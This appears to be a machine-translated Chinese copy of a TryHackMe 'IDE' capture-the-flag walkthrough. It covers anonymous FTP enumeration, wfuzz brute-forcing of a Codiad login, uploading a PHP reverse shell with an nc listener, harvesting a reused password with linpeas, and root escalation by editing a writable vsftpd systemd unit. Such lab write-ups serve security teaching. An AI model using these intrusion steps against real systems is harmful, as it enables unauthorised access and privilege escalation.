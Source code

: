 # TryHackMe-IDE

> 原文：<https://infosecwriteups.com/tryhackme-ide-15ea67a44bc9?source=collection_archive---------3----------------------->

嗨，伙计们，又和特里哈克姆 with 玩得开心了。所以，这里是通过这个 **IDE** 挑战的记录和指南。这间 CTF 客房是由 CTF 爱好者为 CTF 爱好者设计的。

![](img/2f4b04416304326fea513dc6f4d3a8fb.png)

**房间**:[https://tryhackme.com/room/ide](https://tryhackme.com/room/ide)
**关卡**:轻松

**任务**:打磨你枚举技能的简易盒子！获得一个外壳并升级您的权限！

# 我们开始吧

像往常一样，启动机器，在浏览器中打开 IP

![](img/286f95d3921e36d44299128599dc71c8.png)

不寻常。所以我们可以运行`nmap`来检查在其他端口上运行的任何系统

```
> nmap -A -T4 -sS -sV -p- 10.10.223.165
PORT      STATE SERVICE VERSION**21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)**
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.163.74
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
**62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))**
|**_http-title: Codiad 2.8.4**
|_http-server-header: Apache/2.4.29 (Ubuntu)No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).....
....
```

在这里找到 2 个有趣的匹配。FTP 部分可以匿名访问。使用 Cyberduck 和浏览服务器

![](img/a8456874cfc076e0677fde1493790b82.png)

找到一个没有扩展名的文件。下载并打开它

```
Hey **john**,
I have reset the password as you have asked. **Please use the default password to login.** 
Also, please take care of the image file ;)
- **drac**.
```

据说 drac 把 john 的密码重置成了默认密码。因为 FTP 阻止任何东西上传，所以只需记下并继续

让我们看看 TCP 端口 62337

![](img/c8f9346e697aaabcbce2a83de86593b8.png)

这是登录页面。表单正在向此端点发送请求

```
[http://10.10.X.X:62337/components/user/controller.php\?action\=authenticate](http://10.10.223.165:62337/components/user/controller.php\?action\=authenticate)
```

使用 sqlmap 查看 SQL 注入是否存在漏洞

```
> sqlmap --forms -u http://10.10.X.X:62337/ --risk=3 --level=3 --random-agent -p "username"
```

不要。太久得不到结果。决定用`wfuzz`。使用“john”作为用户名，使用随机密码运行 wfuzz，因为注释显示 john 是系统用户之一

```
> wfuzz -c -Z -w wordlists/rockyou.txt --sc 200 -d "username=john&password=FUZZ" [http://10.10.X.X:62337/components/user/controller.php\?action\=authenticate](http://10.10.223.165:62337/components/user/controller.php\?action\=authenticate)====================================================================
ID           Response   Lines    Word       Chars       Payload
====================================================================
..... 
000000008:   200        0 L      4 W        61 Ch       "rockyou"
000000005:   200        0 L      4 W        61 Ch       "iloveyou"
000000051:   200        0 L      4 W        61 Ch       "amanda"
**000000004:   200        0 L      1 W        47 Ch       "XXXXXXXX"**
.....
```

哇哦..“默认密码”是指 XXXXXXX。😂没听清楚。然后，我们就可以成功登录了

![](img/90a085ec51db86f08a0f07150558be70.png)

它显示了一种不是当前运行系统的代码编辑器。但是，有一个按钮，我们可以创建另一个项目。让我们试着创造一些东西。

![](img/fe891e8f9d319096d0161030ca6370a1.png)

不幸的是，有一个错误消息“绝对路径只允许用于/var/www/html/codiad/home”。

行..将绝对路径值更改为`/var/www/html/codiad`。点击创建，突然显示当前运行系统的整个项目代码。

![](img/94ad6c9c7fcc6bf1aa4b001c896f24d7.png)

`index.php`是登录用户界面发生的地方。有趣的是，它可以在里面创建任何文件。🤫。右键单击根文件夹并创建一个新文件。我给它“**reverse.php**”，并将反向外壳代码放入文件中。通过浏览器`/reverse.php`打开文件，通过终端监听

```
> nc -nlvp 4444
Connection from XXXXXXXXXXXXXXXXXX
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
07:04:14 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Tada！以 www-data 用户的身份访问服务器。浏览个人文件夹

```
> ls -al /home
drwxr-xr-x  3 root root 4096 Jun 17  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
drwxr-xr-x  6 drac drac 4096 Aug  4 07:06 drac> ls -al /home/drac
drwx------ 3 drac drac 4096 Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
-rw-r--r-- 1 drac drac    0 Jun 17  2021 .sudo_as_admin_successful
-rw------- 1 drac drac  557 Jun 18  2021 .xsession-errors
**-r-------- 1 drac drac   33 Jun 18  2021 user.txt**
```

找到了标志…但只能由 **drac** 读取。`sudo -l`不会给出任何信息。我不能用九头蛇来破解 **drac** 密码，因为 M1 不支持。我需要找到另一种方法

我们在项目中上传`linpeas`shell，从终端执行怎么样？哈哈哈！下载`linpeas.sh`。复制代码并粘贴到代码编辑器中。现在，我们可以简单地找到 linpeas shell 并执行它

```
> cd /var/www/codiad
> sh linpeas.sh
....
....
**╔══════════╣ Searching passwords in history files
mysql** -u drac -p 'XXXXXXXXXXXXXXXX' **....
....**
```

找到了 drac 用于 Mysql 的密码。但是如果 drac 在 SSH 中使用相同的密码呢？让我们测试一下

```
> ssh drac@10.10.X.Xdrac@10.10.223.165's password:
**drac@ide**:**~**$ > cat user.txt
XXXXXXXXXXXXXXXXX
```

这与 SSH 使用的密码相同。现在，我们成功登录并找到了第一面旗帜。现在是根旗。首先，

```
> sudo -lMatching Defaults entries for drac on ide:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User drac may run the following commands on ide:
**(ALL : ALL) /usr/sbin/service vsftpd restart**
```

因此，可以通过 drac 使用 sudo 来执行服务命令。提到 GTFObins，

```
> sudo service ../../bin/shSorry, user drac is not allowed to execute '/usr/sbin/service ../../bin/sh' as root on ide.
```

无法运行命令，因为 sudo 命令仅限于`vsftpd`服务。无需为寻找提示而头疼，只需再次运行 linpeas，

```
**....
....
╔══════════╣ Interesting GROUP writable files (not in Home) (max500)
╚** [***https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files***](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files)Group **drac:
/lib/systemd/system/vsftpd.service** ....
....
```

发现`vsftpd`服务可由 drac 写入，并由 root 拥有。打开文件，我们可以看到“ExecStart”可以在那里运行命令。既然我的直觉告诉我 CTF 根旗的大部分位于`root/root.txt`。所以，只需把 bash 命令输出的根标志的内容放到根系统目录下。

```
[Unit]
Description=vsftpd FTP server
After=network.target[Service]
Type=simple
ExecStart=/bin/sh -c "cat /root/root.txt > /root.txt"
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty[Install]
WantedBy=multi-user.target
```

保存并尝试重新启动服务

```
> sudo /usr/sbin/service vsftpd restart
**Warning:** The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.
```

只要听从警告，

```
> systemctl daemon-reload
> sudo /usr/sbin/service vsftpd restart> cat /root.txt
XXXXXXXXXXXXXXXX
```

找到最后一面旗帜！！

感谢您的阅读，让我们来看看另一篇文章。🤘

🔈🔈 **Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。** [**查看更多详情并在此注册。**](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)
